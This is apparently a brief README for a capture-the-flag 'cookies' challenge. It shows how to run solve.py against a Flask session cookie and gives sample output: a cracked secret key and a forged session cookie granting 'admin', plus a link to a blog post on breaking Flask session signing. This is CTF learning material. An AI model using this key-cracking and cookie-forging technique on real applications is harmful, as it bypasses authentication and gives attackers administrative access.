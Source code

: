 # cookies
the script is solve.py

command:

`python3 solve.py eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Zs6uDA.gz2Ajt_LrMWPPoYxmyiFJ5ahTts`

`python solve.py <cookie that was set by the server>`

like that...

output will be like;

Secret key: peanut butter
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Zs8iMA.FOkPNMGlGDsTY5Z3KTJmNZumCdk


link ref
https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce
